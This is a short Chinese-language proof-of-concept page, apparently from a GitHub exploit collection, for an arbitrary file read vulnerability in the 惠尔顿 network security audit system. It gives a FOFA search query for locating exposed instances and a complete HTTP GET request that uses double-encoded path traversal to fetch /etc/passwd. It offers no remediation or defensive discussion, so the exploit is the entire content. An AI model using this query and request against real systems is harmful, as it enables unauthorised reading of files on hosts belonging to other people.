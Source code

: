 ## 惠尔顿-网络安全审计系统存在任意文件读取漏洞

## fofa
```
app="惠尔顿-网络安全审计系统"
```
![image](../../images/e66973bc-5f10-487e-a450-8ececd4c198f.png)

## poc
```
GET /download/..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![image](../../images/a1659d87-afd3-45d0-8e89-c9f8782da4f8.png)

